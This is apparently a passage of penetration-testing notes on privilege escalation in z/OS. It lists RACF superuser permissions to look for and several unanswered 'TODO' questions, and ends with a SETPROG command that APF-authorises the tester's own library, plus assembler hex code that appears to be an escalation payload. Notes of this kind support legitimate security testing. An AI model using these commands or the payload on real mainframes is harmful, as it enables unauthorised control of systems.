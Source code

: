   ```
  PERMIT BPX.SUPERUSER CLASS(FACILITY) ID(USERID) ACCESS(READ)
  SETROPTS GENERIC(FACILITY) REFRESH
  ```
  
- Check for SUID programs:

  `TODO: find / ...`
  
- Check filesystem privs (files/dirs):

  `ls -laR /`

- Check for these sensitive permissions being set on file/dirs:

  - SUPERUSER.FILESYS.CHANGEPERMS
  - SUPERUSER.FILESYS.CHOWN 
  - BPX.SUPERUSER // uid(0) for FACILITY
  - SHARED.IDS
  - CHOWN.UNRESTRICTED
  - FILE.GROUPOWNER.SETGID
  - SUPERUSER.FILESYS.MOUNT
  - SUPERUSER.FILESYS.QUIESCE
  - SUPERUSER.FILESYS.PFSCTL
  - SUPERUSER.FILESYS.VREGISTER
  - SUPERUSER.IPC.RMID
  - SUPERUSER.PROCESS.GETPSENT
  - SUPERUSER.PROCESS.KILL
  - SUPERUSER.PROCESS.PTRACE
  - SUPERUSER.SETPRIORITY
  - SUPERUSER.FILESYS
  - SUPERUSER.FILESYS.ACLOVERRIDE
  - RESTRICTED.FILESYS.ACCESS

## OPERCMD profiles
- Can I ADD my own library to the APF list (e.g. in IEAAPFxx or PROGxx)?

  `TODO`
  
- Can I update PARMLIB and wait for the next IPL?

  `TODO`
   
- Can I update PARMLIB and dynamically add an APF authorised library? 

  `TODO`
  
- Do I have access to MVS.SETPROG.** or even ** in the OPERCMDS class?
 
  `TODO`
  
- Run your own library as APF:

  `SETPROG APF,ADD,DSNAME=MYOWNLIB.LOAD,SMS`
  
  where MYOWNLIB.LOAD contains the following code:

  ```
  A START
  DC X'411000300A6B58F0021CBFFFF154A774000858F0022458FF006C58FF00C896'
  DC X'80F02617FF07FE'
  END A 
  ```
  